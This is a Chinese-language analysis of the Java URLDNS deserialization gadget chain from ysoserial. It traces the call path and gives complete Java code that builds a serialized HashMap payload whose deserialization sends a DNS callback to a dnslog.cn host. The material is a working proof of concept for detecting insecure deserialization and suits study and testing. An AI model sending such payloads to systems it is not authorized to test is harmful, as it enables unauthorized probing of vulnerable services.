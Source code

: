 Gadget：
```
/**
 * Gadget Chain:
 *  HashMap.readObject() -> putVal(....) -> hash()
 *      URL.hashCode() 此处判断hashCode必须是-1，否则不会继续往下走
 *          URLStreamHandler.hashCode() -> getHostAddress() -> InetAddress.getByName()
 */
```
HashMap.readObject()的末尾一行：
``` 
putVal(hash(key), key, value, false, false);
```
调用了hash方法，该方法用来计算hash：
``` 
static final int hash(Object key) {
    int h;
    return (key == null) ? 0 : (h = key.hashCode()) ^ (h >>> 16);
}
```
key如果是URL对象，就会调用URL.hashCode。
```java
public synchronized int hashCode() {
    if (hashCode != -1)
        return hashCode;

    hashCode = handler.hashCode(this);
    return hashCode;
}
```
这里有两个点要注意，第一是hashCode，第二是handler.hashCode。

---
先看第一点

URL.hashCode()会对hashCode进行判断，如果不为-1，就会return，无法继续向下执行，Gadget从而中断：
因此包括ysoserial在内的项目在生成URL对象后会将其hashCode设定为-1：
```java
Field hashCodeField = URL.class.getDeclaredField("hashCode");
hashCodeField.setAccessible(true);
hashCodeField.set(url, -1);
```
但是为什么要在将URL对象放入hashMap以后，再改hashCode呢？如果在new URL对象以后直接给hashCode赋值行不行？

不行，这是因为HashMap在put以后，会调用HashMap.hash->URL.hashCode方法计算hash，那么代码流程就变成了：
```java
// new URL
URL url = new URL(null, "http://12.saitu4.dnslog.cn", URLStreamHanderObj);

// 给hashCode赋值
Field hashCodeField = URL.class.getDeclaredField("hashCode");
hashCodeField.setAccessible(true);
hashCodeField.set(url, -1);

HashMap hashMap = new HashMap();
hashMap.put(url, "");  // 重新计算hashCode并赋值
```
于是我们赋值-1就失效了，最后在反序列化时，也就不会进入Gadget流程。

---
再看第二点。

可以看到hashCode中调用了handler.hashCode，如果handler是URLStreamHandler，就会调用URLStreamHandler.hashCode:
```java
// u 即URL对象
InetAddress addr = getHostAddress(u);
```
后续是DNS请求，就不跟进了。


---

由于HashMap的put方法会调用hash：
```java
public V put(K key, V value) {
    return putVal(hash(key), key, value, false, true);
}
```
本质上跟反序列化时过程是一样的，这意味着在生成POC阶段，就会进行一次DNS解析，从而污染DNSlog，因此需要避免这种现象，如何避免？

我们来看put方法调用过程：
``` 
HashMap.put() -> HashMap.hash(key) 
    URL.hashCode()
        URLStreamHandler.hashCode() -> getHostAddress(u)
            InetAddress.getByName(host)
```
如果能够打断这个过程，就不会影响DNS记录。

由于URLStreamHandler是个抽象类，所以我们在使用时，要么new一个子类，要么自己实现一个子类。

ysoserial作者的选择是自己写一个子类，并重写getHostAddress方法来打断。
```java
static class SilentURLStreamHandler extends URLStreamHandler {

    protected URLConnection openConnection(URL u) throws IOException {
            return null;
    }

    protected synchronized InetAddress getHostAddress(URL u) {
            return null;
    }
}
```
openConnection因为是抽象方法，必须要实现，本身没什么用：
```java
abstract protected URLConnection openConnection(URL u) throws IOException;
```

不过我的选择是重写hashCode：
```java
@Override
protected int hashCode(URL u) {
    return -1;
}
```
也能打断后续dns解析步骤，不过，他还有其他的妙用，还记得前面说过的，HashMap.put会重新计算hash吗？他是调用URLtreamHandler.hashCode来实现的：
```java
public synchronized int hashCode() {
    if (hashCode != -1)
        return hashCode;

    hashCode = handler.hashCode(this);
    return hashCode;
}
```
那我重写了hashCode方法，直接return -1，不就不必在后续手动给hashCode赋值了吗。

完整代码如下：
```java
import java.io.*;
import java.lang.reflect.Field;
import java.net.*;
import java.util.HashMap;

public class GenURLDNS {
    /**
     * Gadget Chain:
     * HashMap.readObject() -> putVal(....) -> hash()
     * URL.hashCode() 此处判断hashCode必须是-1，否则不会继续往下走
     * URLStreamHandler.hashCode() -> getHostAddress() -> InetAddress.getByName()
     */
    public static void main(String[] args) throws Exception {
        URLStreamHandler URLStreamHanderObj = new URLStreamHandler() {
            @Override
            protected URLConnection openConnection(URL u) throws IOException {
                return null;
            }

            @Override
            protected int hashCode(URL u) {
                return -1;
            }
        };
        URL url = new URL(null, "http://13.2f882y.dnslog.cn", URLStreamHanderObj);

        HashMap hashMap = new HashMap();
        hashMap.put(url, "");

//        Field hashCodeField = URL.class.getDeclaredField("hashCode");
//        hashCodeField.setAccessible(true);
//        hashCodeField.set(url, -1);
//        序列化
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(hashMap);
        byte[] bytes = byteArrayOutputStream.toByteArray();

//        反序列化
        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(bytes);
        ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
        objectInputStream.readObject();
    }

}
```